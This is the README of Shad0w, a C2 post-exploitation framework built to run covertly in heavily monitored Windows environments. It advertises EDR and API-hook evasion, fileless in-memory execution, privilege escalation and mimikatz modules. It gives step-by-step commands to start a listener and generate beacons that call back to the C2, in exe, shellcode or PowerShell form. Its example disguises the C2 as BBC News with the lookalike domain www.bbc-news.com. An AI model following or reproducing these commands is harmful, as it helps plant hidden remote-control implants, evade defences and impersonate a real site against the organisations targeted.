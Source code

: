 # Shad0w C2 Framework

<p align="center">
  <img alt="pwndrop logo" src="shad0w.jpg" />
</p>

[![Project Status](https://img.shields.io/badge/status-BETA-yellow?style=flat-square)]()

shad0w is a post exploitation framework designed to operate covertly on heavily monitored environments

### Features

#### C2 Server

- Secure communication over HTTPS.
- Clone and live proxy any website, making the C2 fully browsable.

#### Beacons

- Staged and static beacons
- Shellcode and powershell formats allow for completely fileless attacks
- Uses native windows syscalls
- Bypasses userland API hooking
- Blocks EDR from loading DLLs into its process
- Can execute .NET assemblies, EXEs, DLLs, VBS, JS or XSL files completely in memory
- Common privilege escalation exploits built in
- Interact with the file system
- Configurable C2 callback jitter

#### Modules

- [GhostPack](https://github.com/GhostPack)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [SharpSocks](https://github.com/nettitude/SharpSocks)

### Coming Soon

- Unmanaged powershell
- Syscalls for older versions of windows
- Kernel mode capability
- More privilege escalation exploits
- Ghost in the logs integration
- UAC bypasses
- Persistence
- 32 bit support
- More beacon formats

### Install

To install shad0w run the two commands below, making sure you already have docker installed on your system.

    $ git clone --recurse-submodules https://github.com/bats3c/shad0w.git && cd shad0w
    $ sudo ./shad0w install

### Usage

#### C2

To start the C2 server and have it listening for connections you can use the command.

    $ shad0w listen -e <endpoint>

Where the `<endpoint>` is the IP address or domain name the C2 will be listening on. SSL certificates will also be dynamically generated.

To use the website mirroring functionality you can use the `-m` or `--mirror` flag

    $ shad0w listen -e www.bbc-news.com -m "https://www.bbc.com/"

This will mean that if the C2s address of `www.bbc-news.com` is visited the content of `https://www.bbc.com/` will be retrieved and returned. This is also true for any links on the cloned website. If the person browsing the C2 navigated to `https://www.bbc-news.com/sport/football/52799575` the content at `https://www.bbc.com/sport/football/52799575` would be mirrored.

#### Beacons

*Only 64 bit beacons are currently supported*

There are two types of beacons, `secure` and `insecure`. Secure beacons have all the mitigation and evasions techniques built in such syscalls and anti dll injection. These secure beacons are designed to work on the lastest versions of windows.

The insecure beacons are designed to work on a wide variety of windows versions but are designed to be used in situations where detection does not matter.

The syntax for beacon generation.

    $ shad0w beacon -p <payload> -H <c2 address> -f <format> -o <filename>

The format for payloads follows the following syntax

    <arch>/<os>/<secure>/<static>

So to generate a static 64 bit secure windows beacon it would be

    x64/windows/secure/static

Although it is recommended to use staged beacons so the command to generate a staged secure beacon in EXE format would be

    $ shad0w beacon -p x64/windows/secure -H www.bbc-news.com -f exe -o beacon.exe

Or for an insecure beacon it would be

    $ shad0w beacon -p x64/windows -H www.bbc-news.com -f exe -o beacon.exe

There are currently 3 different beacon formats; exe, shellcode and powershell
The `-f` flags is used to control the different formats of the beacons.

To generate a beacon in shellcode or powershell format you can use the `raw` or `psh` value respectively 

    $ shad0w beacon -p x64/windows/secure -H www.bbc-news.com -f raw -o beacon.bin

    $ shad0w beacon -p x64/windows/secure/static -H www.bbc-news.com -f psh -o beacon.ps1

#### Interface

To get a list of commands you can use the `help` command

    shad0w ≫ help

To get a list of active beacons you can use the `beacons` command

    shad0w ≫ beacons

To interact with a beacon use the `beacons` command with the `-i` flag specifying the beacon id

    shad0w ≫ beacons -i 1

### Credits

- [JUMPSEC](https://www.jumpsec.com/) (for just generally being awesome)
- [The Wover](https://twitter.com/TheRealWover) (cause donut is so good)
